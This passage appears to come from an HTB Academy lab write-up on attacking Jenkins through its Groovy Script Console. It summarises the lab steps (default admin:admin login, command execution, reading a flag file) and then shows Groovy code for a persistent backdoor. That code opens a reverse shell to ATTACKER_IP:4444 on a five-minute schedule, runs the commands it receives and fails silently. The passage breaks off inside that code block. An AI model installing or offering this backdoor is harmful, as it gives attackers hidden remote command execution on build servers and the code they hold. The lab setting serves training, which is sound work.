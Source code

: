 ```groovy
```

### 🎯 HTB Academy Lab Summary

**Complete Lab Methodology:**
1. **Environment Setup** - VHost configuration and connectivity verification
2. **Authentication** - Login with admin:admin credentials
3. **Script Console Access** - Navigate to /script endpoint
4. **Command Execution** - Use Groovy for system command execution
5. **Flag Discovery** - Read /var/lib/jenkins3/flag.txt
6. **Verification** - Confirm RCE and flag retrieval

**Key Technical Steps:**
- **Groovy Script Execution** - Jenkins Script Console abuse
- **File System Access** - Direct file reading via Groovy/Java
- **Command Execution** - Process creation and output capture
- **Alternative Methods** - Reverse shell for interactive access

---

## Post-Exploitation and Persistence

### Jenkins Backdoor Installation

#### Persistent Script Console Access
```groovy
// Create persistent backdoor in Jenkins configuration
def installPersistentBackdoor() {
    try {
        def jenkins = Jenkins.instance
        def globalConfig = jenkins.getGlobalBuildDiscarder()
        
        // Create scheduled task for persistent access
        def cronExpression = "H/5 * * * *"  // Every 5 minutes
        
        def backdoorScript = '''
def executeBackdoor() {
    try {
        def socket = new Socket("ATTACKER_IP", 4444)
        def inputStream = socket.getInputStream()
        def outputStream = socket.getOutputStream()
        
        def buffer = new byte[1024]
        while (socket.isConnected()) {
            def bytesRead = inputStream.read(buffer)
            if (bytesRead > 0) {
                def command = new String(buffer, 0, bytesRead).trim()
                if (command == "exit") break
                
                def result = command.execute().text
                outputStream.write(result.getBytes())
                outputStream.flush()
            }
        }
        socket.close()
    } catch (Exception e) {
        // Silently fail
    }
}

executeBackdoor()
'''
        
```